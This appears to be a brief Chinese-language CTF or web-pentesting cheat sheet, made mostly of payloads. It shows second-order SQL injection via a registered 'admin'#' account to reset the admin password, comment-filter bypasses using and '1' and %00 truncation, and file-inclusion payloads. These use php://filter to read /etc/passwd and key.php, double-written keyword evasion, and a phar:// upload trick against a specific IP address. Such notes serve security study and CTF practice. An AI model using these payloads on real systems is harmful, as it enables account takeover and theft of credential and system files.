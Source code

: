 ```sql

select '' select database()''  from user where ema

先注册 admin'# 
在注册一个带单引号的 #
在修改 admin‘#的密码 这样修改的就是admin的密码
```



```
select * from Article where uuid = '983fd952-df4e-4b63-946f-f2e6bb0327d6' and '1'='1'

过滤了-- 和#号
可以用 and '1'直接绕过，也可以用  ;%00 做截断
```



```
注册账号，发表文章
on抓包提取文章的链接
```



### 文件包含

先去访问这个包含的页面，是否是解析

五星推荐https://www.cnblogs.com/ichunqiu/p/10683379.html

1.伪协议

过滤一些关键字可以 双写，大小写

```ruby
index.php?page=php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/convert.base64-encode/resource=../key.php

>> filter/read=convert.base64-encode/resource=/etc/passwd

/index.php?page=phphp://p://filter/read=convert.base64-encode/resource=/etc/passwd

index.php?page=phphp://p://filter/read=convert.base64-encode/resource=../key.php
/index.php?page=pphp://hp://filter/read=convert.base64-encode/resource=../key.php

?phar


```

只能上传txt,但是有一个可以读取编译成php的文件

用phar的伪协议 要先进行压缩，ceshi.php变成压缩包再换成.txt

本质上还是zip压缩包所以用phar协议

http://150.158.88.26:10004/lfi.php?file=phar://files/GHABsTD1XQQRq8Q6.txt/ceshi
